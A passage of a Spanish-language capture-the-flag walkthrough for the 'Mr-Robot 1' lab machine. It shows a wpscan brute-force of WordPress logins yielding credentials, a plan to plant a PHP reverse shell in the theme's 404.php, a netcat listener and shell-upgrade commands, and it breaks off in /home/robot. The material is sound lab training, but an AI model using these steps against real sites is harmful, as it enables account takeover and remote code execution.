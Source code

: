         - Lanzamos el ataque:
        
        ```bash
        wpscan --url http://192.168.1.12/ --wp-content-dir wp-admin --usernames elliot --passwords fsocity-sorted.dic  
        ```
        
        ![Untitled](Mr-Robot%201%20d399b/Untitled%208.png)
        
        > **Username:** elliot
        **Password:** ER28-0652
        > 

# → User:

- Accedemos con las credenciales obtenidas:

![Untitled](Mr-Robot%201%20d399b/Untitled%209.png)

- Después de investigar y navegar por el ***Dashboard***, encontré en ***“Appearance → Editor”*** diversos archivos ***.php*** que podemos modificar directamente.
- Tenemos un archivo ***404.php***, el cual podemos intuir que te saltará este archivo cuando nos produzca este error, por lo que la idea es copiar el código de una reversa ***php*** dentro y forzar dicho error para establecer una conexión reversa.

![Untitled](Mr-Robot%201%20d399b/Untitled%2010.png)

- Ponemos a la escucha nuestra máquina, por el puerto indicado anteriormente ( 9999 ) → Puedes poner cualquiera:

```bash
nc -lvnp 9999
```

![Untitled](Mr-Robot%201%20d399b/Untitled%2011.png)

- Vamos a “vitaminizar” nuestra *shell*, a una que sea un poco más interactiva, en este caso no la vamos a *upgradear* 100% interactiva ya que no nos va a hacer falta.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

![Untitled](Mr-Robot%201%20d399b/Untitled%2012.png)

- Nos dirigimos al directorio /home/robot.
- Nos encontramos dos archivos ahí:
    - key-2-of-3.txt → La cual no podemos acceder ya que pertenece al usuario Robot
    - password.raw-md5 → El cual contiene:
    